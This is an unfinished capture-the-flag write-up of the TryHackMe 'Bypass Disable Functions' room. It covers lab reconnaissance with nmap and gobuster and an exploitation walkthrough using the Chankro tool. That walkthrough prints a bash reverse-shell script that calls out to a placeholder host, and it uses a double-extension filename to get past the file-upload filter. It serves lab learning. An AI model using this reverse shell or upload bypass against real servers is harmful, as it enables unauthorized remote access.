










# Bypass Disable Functions

**Difficulty:** Info  
**Category:** Web  
**Platform:** TryHackMe  
**Date:** 2025-10-07  
**Author:** Shito HENG  
**Link:** https://tryhackme.com/room/bypassdisablefunctions  

## Summary

This writeup details my successful completion of TryHackMe **Bypass Disable Fuctions** room.

## I. Introduction

"Bypass Disable Functions" is an info room in TryHackMe platform, that simulates a web server with restricted PHP functions ('disable_function') and directory access ('open_basedir'). The objective is to upload a malicious PHP file, bypass these restrictions, and execute a reverse shell.

## II. Methodology

### 1. Planning & Scoping

**Target (Host):** 10.201.16.212  
**Provided Files/Attachments:** N/A  
**Scopes/Allow Actions:** Testing limited to the TryHackMe lab environment. Actions follow platform rules (no brute force against external hosts; no exfiltration of real data).  
**Rules of Engagement (ROE):**
- Test only the provided machine / resources
- Do not publish flags or sensitive data

**Objective:**
- Identify vulnerabilities in web server
- Bypass file upload restriction to upload the php backdoor file
- Execute reverse shell to gain access to the server
- Locate the file 'flag.txt'

### 2. Reconnaissance / Information Gathering

**Tool:** Whois  
**Usage:** For getting domain / IP registration and ownership metadata (registrar, org, CIDR/NetRange, nameservers, contact info).  
**Command:**
```bash
whois 10.201.16.212
```
**Result**
```text
NetRange:       10.0.0.0 - 10.255.255.255
CIDR:           10.0.0.0/8
NetName:        PRIVATE-ADDRESS-ABLK-RFC1918-IANA-RESERVED
NetHandle:      NET-10-0-0-0-1
Parent:          ()
NetType:        IANA Special Use
Organization:   Internet Assigned Numbers Authority (IANA)

... (excerpt truncated)
```

**Tool:** Dig  
**Usage:** DNS lookup tool — query A/AAAA/MX/TXT/SOA records, confirm resolution, test DNS servers.  
**Command:**
```bash
dig 10.201.16.212
```
**Result:**
```text
; <<>> DiG 9.20.11-4+b1-Debian <<>> 10.201.16.212
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 9211
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 4096
;; QUESTION SECTION:
;10.201.16.212.                 IN      A

;; ANSWER SECTION:
10.201.16.212.          5       IN      A       10.201.16.212

;; Query time: 120 msec
;; SERVER: <REDACTED> (UDP)
;; WHEN: Tue Oct 07 07:22:07 CDT 2025
;; MSG SIZE  rcvd: 58
```
However, these information isn't useful for exploiting this room  
**Note:** Passive DNS/registration lookups (```dig```,```whois```) were performed against the lab host only. Outputs were used locally and redacted for privacy before publishing. No scanning or external targeting was performed outside the TryHackMe lab.

### 3. Scanning

**Tool:** Nmap  
**Usage:** Active network scanner — discover hosts, open ports, services, versions, run NSE scripts for common checks.  
**Command**
```bash
nmap -p- -Pn -sC -sV 10.201.16.212 --min-rate=10000
```
**Result**
```text
Nmap scan report for 10.201.16.212
Host is up (1.9s latency).
Not shown: 34590 closed tcp ports (reset), 30943 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1f:97:54:30:24:... (RSA)
|   256 a7:21:78:6d:a6:... (ECDSA)
|_  256 57:1c:22:ac:59:... (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Ecorp - Jobs
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.68 seconds
```
Based on the result above, port 22 (ssh) and 80 (http) are open, which we could plan our further attack method

**Tool:** Gobuster  
**Usage:** Web content discovery — brute‑force directories and file names on web servers.  
**Command**
```
gobuster dir -u http://10.201.16.212 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 100
```
**Result**
```
[+] Url:                     http://10.201.16.212
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.201.16.212/assets/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.201.16.212/uploads/]
```
From this output, we see that /assets and /uploads directory are accessable within web server.

### 4. Vulnerability Analysis

Next, we open the web server to see if there're any path that we could exploit.



We see that it shows Hot Jobs in homepage, also has apply job navigation bar for applying the job



As we see here, it shows the submission for file in cv.php




### 5. Exploitation

In this room, we are recommend to use **Chankro** to exploit the web server
**Usage:** Tool to evade disable_functions and open_basedir  
**Installation**
```bash
git clone https://github.com/TarlogicSecurity/Chankro.git
cd Chankro
python2 chankro.py --help
```
**Command**
```bash
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
```
**Description**
```text
--arch = Architecture of system victim 32 o 64.
--input = file with your payload to execute
--output = Name of the PHP file you are going to create; this is the file you will need to upload.
--path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads.
```
Before running the command, we need to create **c.sh** first
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
**Output**  



After that, we could use **burpsuite** to capture the file upload and change filename from ```tryhackme.php``` to ```tryhackme.png.php```











### 6. Post-Exploitation



## III. Challenges Faced

## IV. Lesson Learned

## V. Remediation

## VI. References